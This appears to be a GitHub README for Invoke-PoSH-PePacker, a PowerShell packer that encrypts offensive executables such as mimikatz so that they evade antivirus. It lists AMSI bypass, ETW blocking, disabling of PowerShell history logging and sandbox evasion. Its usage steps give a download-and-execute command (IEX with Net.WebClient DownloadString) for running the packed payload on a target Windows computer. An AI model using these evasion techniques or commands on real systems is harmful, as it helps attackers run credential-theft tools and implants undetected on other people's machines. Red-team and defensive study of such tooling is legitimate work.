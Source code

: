 ### Invoke-PoSH-PePacker.ps1
--------------------------------------
'Invoke-PoSH-PePacker' allows to pack and encrypt offensive PE files in order to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted PowerShell script that contains the PE file that you want to pack.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - Reflective PE injection (based on an updated version of 'Invoke-ReflectivePEInjection')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate an obfuscated & encrypted PowerShell script that contains your PE file (e.g. mimikatz.exe, havocdemon.exe) stored locally or on a remote web server.
```
PS C:\> Import-Module ./Invoke-PoSH-PePacker.ps1
PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1
--- or ---
PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox
``` 
```
PS C:\> Import-Module ./Invoke-PoSH-PePacker.ps1
PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 
--- or ---
PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox
```
  - Step 2. Download & execute the obfuscated & encrypted PowerShell script (that contains your PE file) on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE
--- or ---
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE argument1 argument2 ...
--- or ---
PS C:\> WGET -URI https://URL/Packed-PE-file.ps1 -OutFile C:\temp\Packed-PE-file.ps1
PS C:\> Import-Module C:\temp\Packed-PE-file.ps1
PS C:\> Execute-PE
        or 
PS C:\> Execute-PE argument1 argument2 ...
``` 

#### LICENSE
  - GNU General Public License v3.0
